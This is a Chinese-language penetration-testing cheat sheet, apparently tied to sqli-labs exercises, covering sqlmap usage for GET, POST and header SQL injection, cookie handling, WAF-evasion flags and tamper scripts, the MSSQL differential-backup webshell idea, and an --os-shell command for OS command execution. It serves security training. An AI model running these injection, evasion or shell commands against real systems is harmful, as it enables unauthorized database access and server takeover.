 ## SQLMap怎么对一个注入点进行注入？

1、get类型注入，直接sqlmap -u url地址
2、post类型，（1）sqlmap -u url --data=post的参数 （2）sqlmap -r 请求数据包的文件地址

```
sqlmap -u "http://xxx/sqli/Less-11/?id=1" --data="uname=admin&passwd=admin&submit=Submit"
```

3、header注入，sqlmap -r 请求数据包的文件地址
注：在进行post注入或header注入时，可以使用*标记注入点

## MSSQL差异备份怎么getshell

前提条件：
1、MSSQL具体dbo和sa权限（数据库备份权限）
2、支持堆叠查询
3、知道网站绝对路径
实现原理
完整备份后，再次对数据库进行修改，差异备份会记录最后的LSN，将shell写入数据库，备份成asp即可getshell。

## SQL注入Bypass（过waf）思路

1、内联注释绕过
2、填充脏数据绕过
3、更改请求方式，如GET改为POST
4、随机agent绕过
5、fuzz过滤函数，函数替换绕过
6、sqlmap,tamper脚本绕过----上述思路



## **对于需要登录的网站，我们需要指定其cookie**

##### 我们可以用账号密码登录，然后用`bp`抓取其cookie填入

```
sqlmap -u  "http://xxx/sqli/Less-1/?id=1"   --cookie="抓取的cookie"
```

##### **对于是post提交数据的URL，我们需要指定其data参数**

```
sqlmap -u "http://xxx/sqli/Less-11/?id=1" --data="uname=admin&passwd=admin&submit=Submit"
```

##### 下面是sqlmap参数绕过waf的一些命令

```
#使用参数进行绕过
--random-agent    使用任意HTTP头进行绕过，尤其是在WAF配置不当的时候
--time-sec=3      使用长的延时来避免触发WAF的机制，这方式比较耗时
--hpp             使用HTTP 参数污染进行绕过，尤其是在ASP.NET/IIS 平台上
--proxy=100.100.100.100:8080 --proxy-cred=211:985      使用代理进行绕过
--ignore-proxy    禁止使用系统的代理，直接连接进行注入
--flush-session   清空会话，重构注入
--hex 或者 --no-cast     进行字符码转换
--mobile          对移动端的服务器进行注入
--tor             匿名注入
```

有些时候网站会过滤掉各种字符，可以用tamper来解决（对付某些waf时也有成效）

sqlmap 官方提供了53个绕过脚本，脚本目录在`/usr/share/sqlmap/tamper`中

指定单个脚本进行绕过：

```
sqlmap -u "http://xxx/Less-1/?id=1" --tamper=space2plus.py 
```

指定多个脚本进行绕过：

```
sqlmap -u "http://xxx/Less-1/?id=1" --tamper="space2comment.py,space2plus.py"
```

## 探测等级和危险等级(—level —risk)

sqlmap一共有5个探测等级，默认是1。等级越高，说明探测时使用的payload也越多。其中5级的payload最多，会自动破解出cookie、XFF等头部注入。当然，等级越高，探测的时间也越慢。这个参数会影响测试的注入点，GET和POST的数据都会进行测试，HTTP cookie在level为2时就会测试，HTTP User-Agent/Referer头在level为3时就会测试。在不确定哪个参数为注入点时，为了保证准确性，建议设置level为5

## 执行操作系统命令(—os-shell)

在数据库为MySQL、PostgreSql或者SQL Server时，可以通过sqlmap执行操作系统命令

**当为MySQL数据库时，需满足下面条件：**

- 当前用户为 root

- 知道网站根目录的绝对路径

- ```
  sqlmap -u "http://xxx:7777/Less-1/?id=1" --os-shell
  ```

  